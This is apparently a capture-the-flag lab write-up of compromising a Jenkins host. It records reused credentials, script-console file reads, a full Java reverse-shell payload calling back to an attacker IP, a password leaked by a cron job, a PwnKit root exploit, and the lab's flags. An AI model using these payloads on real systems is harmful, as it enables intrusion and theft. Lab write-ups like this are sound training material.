




# Host [172.16.1.19](http://172.16.1.19):

This one requires a dependency from another machine I may not have rooted yet.


After compromising the DC02 which is the internal Admin subnet, I realized that the credentials I previously found in inside a "jenkins.bat" file are the credentials I should use here since this is the login for the jenkins site.
```
Admin_129834765
SamsungOctober102030
```

I successfully logged in and got the first flag.:

Flag:
```
DANTE{to_g0_4ward_y0u_mus7_g0_back}
```

There is a way to use a combination of different CVEs to get to RCE exploitability for jenkins. In this case, I was able to use the following to indirectly interact with a descriptor without logging in by adding "securityRealm" and the descriptor name/function which in this case was index?q=.:
```
http://172.16.1.19:8080/securityRealm/user/Admin_129834765/search/index?q=a
```


Similar useage to get email:
```
admin@dante.htb
```


source: <https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html>

When using the script console, I was able to find the parameters required to use ls and open certain files as shown below. I also obtained the etc/passwdfile information. However, the shadow file isn't accessible.:
```
    'ls /'.execute().text
and
    string contentRead = new File('/etc/passwd').getText('UTF-8')
```



I got confirmation in Discord that, despite the hint from the first flag, it doesn't have anything to do with the second flag. It may just be referring to the fact that I needed to root DC02 in order to get the credentials for this server. In any case, I was on the right track trying to get a reverse shell. In continuing this method, I quickly gain a reverse shell using the following in the script engine with the netcat listener configured on my attacker machine on port 8888.:
```
String host='10.10.16.101';
int port=8888;
String cmd='/bin/sh';
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

In checking the /var/lib/jenkins directory, I found a strange looking file called .owner with the following data:
```
cat .owner
1963896205 contextPath="" at 1348@DANTE-NIX07
```
I also found a file called secret.key which contained the following hash.:
```
cat secret.key
be246d951ae2ab20beaff7faf8a0eb83fb77e6b9354933d83f533bd55cd38b4f
```

In running pspy64s, this tool allows me to see all cronjobs in realtime as they get executed. I found the following:


```
/bin/sh -c /bin/bash mysql -u ian -p VPN123ZXC
```

After a few attempts, I realized that the password wasn't for a mysql database but rather the password to escalate as Ian. I need to figure out how I can create a symlink and extract /root/flag.txt with:
```
ln -s [path/to/file] /dest/path
# -s is for a soft link; don't use for a hardlink.
```

Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588

I used the 1st CVE to pass along the pwnkit files into a dedicated test folder and then ran:
```
make

# Once this was complete I ran:

./exploit

# From here, I was able to confirm root with 'whoami'.
```

```
Flag: DANTE{g0tta_<3_ins3cur3_GROupz!}
```
